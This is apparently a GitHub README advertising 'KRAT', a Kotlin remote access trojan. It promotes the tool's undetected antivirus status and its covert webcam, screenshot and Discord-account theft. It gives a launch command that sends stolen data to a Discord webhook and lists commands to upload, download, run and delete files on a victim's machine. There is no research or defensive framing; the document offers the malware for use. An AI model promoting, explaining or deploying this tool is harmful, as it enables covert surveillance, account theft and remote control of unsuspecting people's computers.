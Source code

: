 ### Current status: 🟢[Undetected](https://www.virustotal.com/gui/file/4010a8370f3473ba80ddc202cca45f5d310b344ed2e773989aff003cbea71495?nocache=1)

# KRAT

A RAT (Remote Access Trojan) written in Kotlin.

## Features
- Get periodicals screenshots
- Get real-time webcam
- Sends Discord account information
- On-demand actions
- Everything silently and undetectable by antivirus

## Usage
1. Download the latest release and put it on a server
2. Run the `.jar` file with your Discord webhook link as parameter

```sh
java -jar KRAT.jar <webhook-link>
```

## On-demand actions
- `!webcam`: take a webcam capture and send it
- `!screenshot`: take a screenshot and send it
- `!filtree`: sends the victim's file tree
- `!upload <link> <absolute-path>`: upload a file to the victim
- `!download <absolute-path>`: download a file from the victim
- `!run <file>`: execute a file on the victim's computer
- `!delete <absolute-path>`: delete a file from the victim's computer
- 

[//]: # (3. The program will connect to your Discord bot and ask for configuration)

## Stack
- [Kotlin](https://kotlinlang.org/)
- [Kord](https://kordlib.github.io/kord/)
- [webcam-capture](https://github.com/sarxos/webcam-capture)